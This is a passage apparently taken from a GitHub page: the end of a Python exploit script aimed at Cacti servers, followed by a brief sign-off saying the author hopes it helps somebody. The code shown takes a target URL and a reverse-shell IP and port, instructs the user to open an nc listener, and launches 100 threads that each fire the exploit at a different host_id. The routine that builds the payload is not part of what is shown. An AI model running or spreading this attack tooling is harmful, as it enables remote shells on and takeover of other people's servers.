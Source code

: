 ```python
            r = self.session.get(url, params=params, headers=headers, timeout=timeout_time)
            print(f'\n\n\tSUCCESS: using {r.request}\n\n')
            print(f"{r.status_code} - {r.text}" )
        except Exception as e:
            print(f'{e}')

    def random_user_agent(self):
        ua_list = [
            "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36",
            "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0",
        ]
        return random.choice(ua_list)

def parse_args():
    import argparse
    argparser = argparse.ArgumentParser()
    argparser.add_argument("-u", "--url", help="Target URL (e.g. http://192.168.1.100/cacti)")
    argparser.add_argument("-p", "--remote_port", help="reverse shell port to connect to", required=True)
    argparser.add_argument("-i", "--remote_ip", help="reverse shell IP to connect to", required=True)
    argparser.add_argument('-c', "--command", help='Command', dest='cmd')
    return argparser.parse_args()
    
def exploit_task(url, remote_ip, remote_port, host_id, timeout):
    e = Exploit(url, None, remote_ip, remote_port)
    e.exploit(host_id, timeout)

args = parse_args()
cmd = args.cmd

def main() -> None:
    # Open a nc listener (rs_host+rs_port) and run the script against a CACTI server with its LOCAL IP URL
    threads = []
    timeout = 0.5 # GET timeout, in seconds
    for n in range(0,100):
        t = Thread(target=exploit_task, args=(args.url, args.remote_ip, args.remote_port, n, timeout))
        threads.append(t)
        t.start()
    for t in threads:
        t.join()

if __name__ == "__main__":
    main()
```

I hope that helps somebody! Regardless, it was good Python practice 🐍
